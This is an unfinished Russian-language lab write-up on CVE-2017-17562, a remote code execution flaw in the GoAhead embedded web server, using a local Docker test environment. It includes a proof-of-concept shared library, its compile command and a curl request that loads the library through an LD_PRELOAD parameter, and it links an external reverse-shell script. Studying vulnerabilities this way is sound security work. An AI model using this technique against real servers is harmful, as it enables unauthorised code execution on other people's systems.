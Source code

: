 # CVE-2017-17562

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-17562](https://nvd.nist.gov/vuln/detail/CVE-2017-17562)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562)
* [https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/](https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/)

GoAhead — это встраиваемый веб-сервер компании Embedthis, который используется в продуктах Oracle, IBM, HP и других известных производителей.

Embedthis GoAhead до версии 3.6.5 позволяет удаленно выполнить код, если включен CGI и CGI-программа динамически компонуется. Это происходит в результате инициализации окружения форк CGI-скриптов с помощью недоверенных параметров HTTP-запроса в функции cgiHandler в файле cgi.c. В сочетании с динамическим компоновщиком glibc такое поведение может быть использовано для удаленного выполнения кода с помощью специальных имен параметров, таких как LD\_PRELOAD. Злоумышленник может поместить полезную нагрузку разделяемого объекта в тело запроса и сослаться на него, используя /proc/self/fd/0.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2017-17562

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

\--- скрин web ----

CGI-скрипты доступны по адресу http://ваш-ip:8080/cgi-bin/index

\---- скрин страницы со скриптами ----

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

\---- скрин с компиляцией ----

Используйте утилиту curl, чтобы произвести атаку:

```
curl -X POST --data-binary @payload.so "http://ваш-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

\---- скрин выполнения команды ----

В ответе мы можем видеть, что появился заголовок hello со значением World!, что свидетельствует об успешном выполнении кода

\---- скрин пакета ----

\---------- если работает пок с тг, добавить инфу сюда ---------

Для автоматизации получения обратной оболочку можно использовать [данный](https://www.exploit-db.com/exploits/43360) скрипт

\---- скрин получения ----

вазух&#x20;

\---- скрин вазух ----
